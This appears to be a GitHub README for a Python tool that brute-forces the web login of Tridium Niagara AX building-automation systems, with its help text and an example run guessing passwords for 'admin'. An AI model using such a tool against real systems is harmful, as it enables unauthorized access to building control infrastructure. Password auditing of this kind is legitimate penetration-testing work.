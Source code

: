 # Tridium Niagara Password Cracker
By VenomInfoSec


## Purpose
An online password cracker that brute forces passwords for the Tridium Niagara platform.
* Hydra didn't work with the target due to multiple redirects, custom encoding scheme, and CSRF tokens.
* Currently only supports HTTP but the testCreds() method can be modified to support HTTPS since it just uses the requests module

## Help
```
C:\>python NiagaraPswd.py -h
usage: NiagaraPswd.py [-h] -l LIST -u USERNAME -f FAILURE [-r] target

Brute force Tridium Niagara AX Web Login

positional arguments:
  target                The IP or root URL of the Tridium Niagara AX Webpage

optional arguments:
  -h, --help            show this help message and exit
  -l LIST, --list LIST  The path of the wordlist to be used
  -u USERNAME, --username USERNAME
                        The username to try
  -f FAILURE, --failure FAILURE
                        The path of the webpage that illustrates what a failed
                        login attempt is
  -r, --resume          If the last attempt resulted in unexpected program
                        failure, use this option to resume from the last
                        credentail tried
```

## Example
```
C:\>python NiagaraPswd.py -l phpbb-rules.txt -u admin -f default.html 127.0.0.1
 [*] Initializing wordlist...

 [-] admin:YeBs2wu992 is incorrect
 [-] admin:avKNwJ2938 is incorrect
 [-] admin:dAGwAKn976 is incorrect
 [-] admin:XeesHfy623 is incorrect
 [-] admin:S8Ydn4l735 is incorrect
 [!] Keyboard Interrupt, saving last tried creds

```
## TODO
- [ ] Add support for HTTPS
- [ ] Add support for threading


